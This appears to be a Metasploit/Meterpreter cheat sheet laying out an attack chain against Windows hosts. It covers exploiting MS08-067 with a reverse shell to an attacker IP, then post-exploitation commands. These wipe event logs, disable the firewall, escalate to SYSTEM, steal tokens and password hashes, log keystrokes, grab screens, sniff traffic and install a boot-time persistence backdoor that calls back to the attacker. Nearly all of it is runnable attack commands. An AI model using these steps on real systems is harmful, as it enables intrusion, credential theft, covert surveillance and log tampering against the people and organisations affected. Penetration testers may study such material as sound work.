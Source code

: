 Metasploit Meterpreter cheats
=============================

<pre>
msfconsole #starts metasploit
msfupdate #updates metasploit
run + two tabs #lists all meterpreter scripts
</pre>


<h4>Getting Meterpreter Shell:</h4>
netapi exploit
<pre>
#works almost all of the time with XP
msf> use exploit/windows/smb/ms08_067_netapi 
msf> set RHOST 192.168.1.101
msf> set PAYLOAD windows/meterpreter/reverse_tcp    #victim will connect back to the console to establish session
msf> set LHOST 192.168.1.100
msf> exploit
</pre>


<h4>Post Exploits:</h4>
<pre>
clearev #wipes all system and security logs
execute -f cmd.exe -c -H    #creates cmd session and channelize; will keep prompt hidden
getdesktop    #shows current desktop sessions
getuid
getpid
getsystem -h    #privilege escalation, 0 will attempt every technique, 1 and 2 usually work
idletime
ipconfig
list_tokens -u    #lists user tokens by name
load incognito
migrate 1908    #migrates into process 1908
netsh firewall show opmode    #shows if firewall is up or not
netsh firewall set opmode mode= DISABLE     #turns firewall off
ps
rev2self    #reverts back to the user you exploited as
route
run checkvm     #meterpreter script
run get_env
run get_application_list
run scraper     #access hashes > cd .msf4/logs/scripts/scraper/
run winenum     #access dump  > cd .msf4/logs/scripts/winenum/
steal_token 3280    #process to steal a token from
sysinfo
tasklist    #to view a list of processes
</pre>


<h4>Keystroke Logger:</h4>
<pre>
getuid    #should say SYSTEM
getdesktop #should say Session 0...\Default
ps    #find explorer.exe (in this case 1744)
migrate 1744
getpid    #verify that you are running as 1744
getdesktop    #should now say Session 0\WinSta0\Default
keyscan_start
keyscan_dump    #will print the text to the screen
keyscan_stop
</pre>


<h4>Persistence: </h4>
<pre>
run persistence -h    #shows options
run persistence -A -L c:\\ -X -i 10 -p 443 -r 192.168.1.100
# -A when the persistence backdoor connects back to the metasploit instance there will be something waiting to 
#   complete the connection
# -L location of payload in target host 
# c:\\ the location parameter
# -X automatically start when the system boots up
# -i number of seconds to wait before each connection attempt 
# 10 the parameter of time to wait
# -p 443 port that metasploit is listening
# -r ip address that the attacker machine is running on
# after running take note of resource file and its location to delete it afterwards

after connection:
background     #keeps process running in background
sessions -l     #lists the backdoor sessions
resource /root/.msf4/logs/persistence[path].rc    #removes the backdoor vb script
</pre>


<h4>Screen Capture:</h4>
<pre>
ps    #find process under username you want to exploit
migrate 3708 
use espia
screengrab
</pre>


<h4>Sniffer:</h4>
<pre>
load sniffer
sniffer_interfaces #look for interface that shows usable:True
sniffer_start 1 1024 #sniffing with adapter 1 and packet buffer of 1024
sniffer_stats 1 #looks at traffic 
sniffer_dump 1 dump.pcap
sniffer_stop 1
wireshark dump.pcap
</pre>
